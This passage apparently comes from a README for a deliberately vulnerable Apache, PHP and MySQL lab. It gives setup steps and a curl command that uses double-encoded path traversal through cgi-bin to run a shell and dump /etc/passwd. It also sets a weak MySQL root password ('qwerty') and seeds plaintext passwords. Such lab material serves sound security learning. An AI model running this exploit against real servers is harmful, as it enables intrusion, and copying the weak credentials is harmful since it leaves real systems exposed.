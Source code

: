 ```html
    </style>
</head>
<body>
    <h1>Website Under Maintenance</h1>
    <p>We're currently working on improvements. Please check back later.</p>
    <footer>
        Powered by PHP 8.3
    </footer>
</body>
</html>

```
### Set LogLevel to `debug`
Edit `/usr/local/apache2/conf/httpd.conf` and set`LogLevel debug`
### Start Apache
- `sudo /usr/local/apache2/bin/apachectl -k start`
### Test: dump `/etc/passwd`
```bash
curl 'http://<address/domain>:<port>/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; cat /etc/passwd'
```
# Configure MySQL
## Install
``` bash
sudo apt update
sudo apt install mysql-server
sudo mysql_secure_installation
```
## Set root password
1. Do the first login with `sudo mysql -u root -p`
2. Change te root password with a query
```SQL
ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'qwerty';
```
## Create dummy database:
```sql
CREATE DATABASE data;
USE data;

CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(255) NOT NULL
);

INSERT INTO users (username, password) VALUES ('admin', 'password'), ('user', 'password');
```

